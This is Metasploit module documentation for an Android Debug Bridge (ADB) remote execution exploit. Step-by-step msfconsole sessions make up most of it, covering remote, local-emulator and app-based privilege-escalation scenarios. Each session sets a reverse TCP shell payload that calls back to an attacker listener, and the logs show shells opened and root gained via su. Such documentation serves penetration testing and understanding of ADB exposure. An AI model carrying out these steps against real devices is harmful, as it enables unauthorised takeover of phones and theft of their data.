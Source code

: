 ## Vulnerable Application

Writes and spawns a native payload on an Android device that is listening
for Android Debug Bridge (ADB) debug messages.


## Installation Steps

To emulate Android devices, download and install [Android Studio](https://developer.android.com/studio/).

1. Start Android Studio and create a device using Device Manager.
1. Start an emulated device, either via Android Studio or using the `emulator` executable from Android SDK.

List available AVDs and start one with the emulator:

```
$ /path/to/Android/Sdk/emulator/emulator -list-avds
Galaxy_Nexus_API_29
$ /path/to/Android/Sdk/emulator/emulator -avd Galaxy_Nexus_API_29
```

For physical devices, refer to:

* https://developer.android.com/studio/command-line/adb


## Verification Steps

1. `msfconsole`
1. `use exploit/android/adb/adb_server_exec`
1. `set rhosts [host]`
1. `set rport [port]`
1. `set target [target]`
1. `run`
1. You should get a session


## Options


## Scenarios

### Remote Exploitation

```
msf > use exploit/android/adb/adb_server_exec 
[*] Using configured payload linux/armle/shell_reverse_tcp
msf exploit(android/adb/adb_server_exec) > set rhosts 192.168.200.135
rhosts => 192.168.200.135
msf exploit(android/adb/adb_server_exec) > set rport 5555
rport => 5555
msf exploit(android/adb/adb_server_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   armle
   1   x86
   2   x64
   3   mipsle


msf exploit(android/adb/adb_server_exec) > set target 1
target => 1
msf exploit(android/adb/adb_server_exec) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf exploit(android/adb/adb_server_exec) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 192.168.200.135:5555 - Connecting to device...
[+] 192.168.200.135:5555 - Connected to device:
device::ro.product.name=sdk_gphone_x86;ro.product.model=Android SDK built for x86;ro.product.device=generic_x86;features=fixed_push_symlink_timestamp,apex,fixed_push_mkdir,stat_v2,abb_exec,cmd,abb,shell_v2
[+] 192.168.200.135:5555 - Command executed, response:
 command=WRTE
arg0=0x99
arg1=0xb
data=

[*] 192.168.200.135:5555 - Command Stager progress - 100.00% done (1142/1142 bytes)
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.135:60382 ) at 2022-03-20 19:55:10 -0400

id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input)
```


### Emulated Device Local Exploitation

When running Android devices in an emulator with Android Studio, the ADB
service is exposed only on the local network interface. However, the
service is accessible to all local users and may allow one user to
compromise another user's emulated device if authentication is disabled.

Setting up a port forward to the ADB service allows this module to exploit
ADB over an existing session:

```
meterpreter > portfwd add -l 1234 -p 5555 -r 127.0.0.1
[*] Local TCP relay created: :1234 <-> 127.0.0.1:5555
meterpreter > 
Background session 1? [y/N]  
msf > use exploit/android/adb/adb_server_exec 
[*] Using configured payload linux/armle/shell_reverse_tcp
msf exploit(android/adb/adb_server_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(android/adb/adb_server_exec) > set rport 1234
rport => 1234
msf exploit(android/adb/adb_server_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   armle
   1   x86
   2   x64
   3   mipsle


msf exploit(android/adb/adb_server_exec) > set target 1
target => 1
msf exploit(android/adb/adb_server_exec) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf exploit(android/adb/adb_server_exec) > set lhost 192.168.200.130
lhost => 192.168.200.130
```

Successful exploitation results in `adb` user privileges with `shell` SELinux context,
leading to `root` privileges on the device by using `su`:

```
msf exploit(android/adb/adb_server_exec) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 127.0.0.1:1234 - Connecting to device...
[+] 127.0.0.1:1234 - Connected to device:
device::ro.product.name=sdk_gphone_x86;ro.product.model=Android SDK built for x86;ro.product.device=generic_x86;features=fixed_push_symlink_timestamp,apex,fixed_push_mkdir,stat_v2,abb_exec,cmd,abb,shell_v2
[*] Sending stage (36 bytes) to 192.168.200.135
[+] 127.0.0.1:1234 - Command executed, response:
 command=WRTE
arg0=0x95
arg1=0xb
data=

[*] 127.0.0.1:1234 - Command Stager progress - 100.00% done (1142/1142 bytes)
[*] Command shell session 2 opened (192.168.200.130:4444 -> 192.168.200.135:60332 ) at 2022-03-20 18:30:56 -0400

id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
su
id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
```


### Emulated Device Privilege Escalation

When running Android devices in an emulator with Android Studio, it is possible
for apps to communicate with the ADB service on the host's local network interface.
This allows a malicious app to request a shell on the device via ADB, leading to
elevation of privileges by creating a new session with `shell` privileges.

Untrusted Android apps have `untrusted_app` SELinux context, do not have `shell`
privileges and cannot execute `su`:

```
meterpreter > shell
Process 1 created.
Channel 1 created.
id
uid=10149(u0_a149) gid=10149(u0_a149) groups=10149(u0_a149),3003(inet),9997(everybody),20149(u0_a149_cache),50149(all_a149) context=u:r:untrusted_app_25:s0:c512,c768
su
/system/bin/sh: <stdin>[2]: su: inaccessible or not found
exit
```

However, apps can communicate with the ADB service associated with the emulated
device (port `5555` in this example) on the host `10.0.2.2`. Setting up a port
forward to the ADB service allows this module to exploit ADB over the session:

```
meterpreter > portfwd add -l 1234 -p 5555 -r 10.0.2.2
[*] Local TCP relay created: :1234 <-> 10.0.2.2:5555
meterpreter > 
Background session 1? [y/N]  
msf > use exploit/android/adb/adb_server_exec
[*] Using configured payload linux/armle/shell_reverse_tcp
msf exploit(android/adb/adb_server_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(android/adb/adb_server_exec) > set rport 1234
rport => 1234
msf exploit(android/adb/adb_server_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   armle
   1   x86
   2   x64
   3   mipsle


msf exploit(android/adb/adb_server_exec) > set target 1
target => 1
msf exploit(android/adb/adb_server_exec) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf exploit(android/adb/adb_server_exec) > set lhost 192.168.200.130
lhost => 192.168.200.130
```

Successful exploitation results in `adb` user privileges with `shell` SELinux context,
leading to `root` privileges on the device by using `su`:

```
msf exploit(android/adb/adb_server_exec) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 127.0.0.1:1234 - Connecting to device...
[+] 127.0.0.1:1234 - Connected to device:
device::ro.product.name=sdk_gphone_x86;ro.product.model=Android SDK built for x86;ro.product.device=generic_x86;features=fixed_push_symlink_timestamp,apex,fixed_push_mkdir,stat_v2,abb_exec,cmd,abb,shell_v2
[*] Sending stage (36 bytes) to 192.168.200.135
[+] 127.0.0.1:1234 - Command executed, response:
 command=WRTE
arg0=0xb
arg1=0xb
data=

[*] 127.0.0.1:1234 - Command Stager progress - 100.00% done (1142/1142 bytes)
[*] Command shell session 2 opened (192.168.200.130:4444 -> 192.168.200.135:59846 ) at 2022-03-20 02:57:52 -0400

id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
su
id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
```
